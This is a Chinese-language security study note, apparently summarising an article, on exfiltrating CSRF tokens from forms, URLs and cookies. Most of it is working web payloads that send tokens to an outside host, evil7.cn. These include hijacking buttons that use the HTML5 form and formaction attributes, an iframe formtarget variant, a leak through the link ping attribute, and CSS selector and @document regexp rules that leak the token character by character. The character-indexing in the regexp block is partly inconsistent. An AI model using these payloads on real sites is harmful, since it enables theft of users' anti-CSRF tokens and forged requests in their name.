 ## 阅读连接
https://xz.aliyun.com/t/7084
## cookie中的token
cookie属性设置为http-only，能有效避免xss攻击导致token泄漏。
但实际开发中，很少会设置此属性，因为不能用JS操作cookie，不利开发。
服务端现在较为安全的方法是通过对请求进行数字签名，然后返回给客户端进行有限期的token保存（不一定是保存在cookie）
https://www.zhihu.com/question/336386632
还可以阅读我之前写的《token和csrf》
## form表单中的token
```js
<form id="user-edit" method="POST" action="/user/edit">
  <input name="token" type="hidden" value="csrf-xxxx1234">
  <input name="notes" type="text" value="">
  <input name="secert" type="radio">secert
  <input name="public" type="radio">public
  <input type="submit" value="save">
</form>

<div>user's note blablabla...</div>
```
假设你在这个页面找到个DOM类型的self-xss，不过有这样的限制区别：

如果用户提交secert类别的内容，那页面将保留所有原始DOM，但限制仅能自己查看和触发，其他人看不到这条note的内容。
但如果你发布的public文本内容，文本则可以公开给所有人浏览，不过危险的event和用于危险的标签DOM全被waf过滤了。
```js
<input type="submit" form="user-edit" value="hijack">
```
文中利用了
input新的html5属性form(作用是规定输入字段所属的一个或多个表单)
虽然是用户编辑出来的一个input标签，但在其他用户点击的情况下，成功触发了他所在页面的正常表单。
尝试拿到token的伪造表达元素
```js
<input type="submit" form="user-edit" formaction="https://evil7.cn" formmethod="GET" value="hijack">
```
同样也可以作用于iframe
```js
<iframe name="title_frame" src="/index?token=xxxx1234"></iframe>
<form id="user-edit" method="POST" action="/user/edit">
  <input name="token" type="hidden" value="csrf-xxxx1234">
  <input name="notes" type="text" value="">
  <input name="secert" type="radio">secert
  <input name="public" type="radio">public
  <input type="submit" value="save">
</form>
<input type="submit" formtarget="title_frame" formaction="https://evil7.cn" formmethod="GET" value="hijack">
```
虽然a标签的行为可能被代理跳转或安全处理了no-referrer属性，但通过找到一个没有sandbox和其他安全限制的iframe来劫持为form的target，就成功绕过了URL带出token的referrer限制。
## url中的token
```js
<a href="https://evil7.cn">get_token</a>
```
但现在有安全意识的开发人员都普遍带上no-referrer属性
但html5又有一个新的ping属性可以利用。此属性用来统计点击或者跟踪行为，但实际上你也可以
用来盗取token。
ping属性在用户点击链接时，统计用户点击的内容发送到指定服务器，所以不管是否刷新跳转页面是否点击的是个锚点链接，只要有点击发生其实ping都是正常发出ping请求的，所以即使href中是个锚点不是链接，我们的server也能统计到用户点了什么（ping-from/ping-to）。同样，哪怕csp和waf做了一定的安全处理，让我们没法跨域情况实现获取到其他站点的ping-from： https://domain.com/token=csrfxxxx1234，我们也可以通过hash锚点，让链接指向实际为https://domain.com/token=csrfxxxx1234#hash的链接，hash不会破坏浏览器地址栏现有的链接，但我们完全可以在server上看到一条ping流量带出了ping-to属性，从而完成不破坏现有URL情况下，通过ping-to带出URL的内容
```js
<a href="#ping-leak" ping="https://evil7.cn">ping_leak</a>
```
搭配hash属性就可以向https://evil7.cn，发送https://domain.com/token=csrfxxxx1234#ping-leak，从而获取token
## css获取token
```js
<style>
input[name="token"][value^="c"] {
  background: url("https://evil7.cn/css-leak?token_1=c")
}
</style>

<input name="token" value="csrf-xxxx1234">
```
css4还使得css支持正则，所以作者大胆提出一种攻击手段
```js
# 泄露出token第1个字符
@document regexp("/token=a.*/") {
  div:nth-child(1) { background: url("https://evil7.cn/?token_1=a")}
}
@document regexp("/token=b.*/") {
  div:nth-child(1) { background: url("https://evil7.cn/?token_1=b")}
}
......
@document regexp("/token=z.*/") {
  div:nth-child(1) { background: url("https://evil7.cn/?token_1=z")}
}
......
# 泄露出token第2个字符
@document regexp("/token=.{2}a.*/") {
  div:nth-child(1) { background: url("https://evil7.cn/?token_2=a")}
}
@document regexp("/token=.{2}b.*/") {
  div:nth-child(1) { background: url("https://evil7.cn/?token_2=b")}
}
......
@document regexp("/token=.{2}z.*/") {
  div:nth-child(1) { background: url("https://evil7.cn/?token_2=z")}
}
......
# 泄露出token第3个字符
@document regexp("/token=.{3}a.*/") {
  div:nth-child(3) { background: url("https://evil7.cn/?token_3=a")}
}
......
```